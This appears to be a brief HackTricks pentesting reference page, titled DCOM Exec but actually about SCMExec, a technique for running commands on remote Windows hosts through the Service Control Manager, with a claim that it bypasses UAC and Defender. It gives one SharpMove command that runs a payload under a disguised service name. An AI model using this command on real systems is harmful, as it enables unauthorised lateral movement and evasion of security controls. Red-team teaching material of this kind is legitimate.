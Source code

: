 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## SCM

**SCMExec** is a technique to execute commands on remote systems using the Service Control Manager (SCM) to create a service that runs the command. This method can bypass some security controls, such as User Account Control (UAC) and Windows Defender.

## Tools

- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

{{#include ../../banners/hacktricks-training.md}}
